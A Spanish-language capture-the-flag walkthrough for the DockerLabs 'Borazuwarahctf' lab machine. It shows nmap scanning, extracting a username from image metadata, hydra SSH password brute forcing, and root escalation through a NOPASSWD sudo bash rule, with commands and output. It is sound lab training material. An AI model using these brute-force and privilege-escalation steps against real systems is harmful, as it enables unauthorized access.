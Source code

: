# Borazuwarahctf DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip borazuwarahctf.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh borazuwarahctf.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-06 12:27 EST
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 3d:fd:d7:c8:17:97:f5:12:b1:f5:11:7d:af:88:06:fe (ECDSA)
|_  256 43:b3:ba:a9:32:c9:01:43:ee:62:d0:11:12:1d:5d:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

Si entramos en la pagina vemos simplemente una imagen de un `huevo kinder`, pero si realizamos `fuzzing` no encontraremos nada, si intentamos fuerza bruta con `hydra` tampoco veremos nada, por lo que vamos a ver si contiene `metadatos` importantes dicha imagen, por lo que vamos a descargarnos la imagen y utilizar una herramienta para sacar los `metadatos` de la imagen.

## exiftool

```shell
wget http://<IP>/imagen.jpeg
```

```shell
exiftool imagen.jpeg
```

Info:

```
ExifTool Version Number         : 13.00
File Name                       : imagen.jpeg
Directory                       : .
File Size                       : 19 kB
File Modification Date/Time     : 2024:05:28 12:10:18-04:00
File Access Date/Time           : 2025:02:06 12:31:55-05:00
File Inode Change Date/Time     : 2025:02:06 12:31:55-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 12.76
Description                     : ---------- User: borazuwarah ----------
Title                           : ---------- Password:  ----------
Image Width                     : 455
Image Height                    : 455
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 455x455
Megapixels                      : 0.207
```

Por lo que vemos tenemos un usuario, por lo que probaremos a realizar fuerza bruta con dicho usuario.

## Escalate user borazuwarah

### Hydra

```shell
hydra -l borazuwarah -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-06 12:34:00
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: borazuwarah   password: 123456
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-06 12:34:06
```

Por lo que vemos obtendremos las credenciales del usuario `borazuwarah` por lo que nos conectaremos por `ssh` de la siguiente forma:

### SSH

```shell
ssh borazuwarah@<IP>
```

Metemos como contraseña `123456` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for borazuwarah on 7b08259878b6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User borazuwarah may run the following commands on 7b08259878b6:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/bash
```

Veremos que podremos ejecutar el binario `bash` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo bash
```

Info:

```
root@fd6a0da128a8:/home/borazuwarah# whoami
root
```

Y con esto ya seremos `root`, por lo que habremos terminado la maquina.
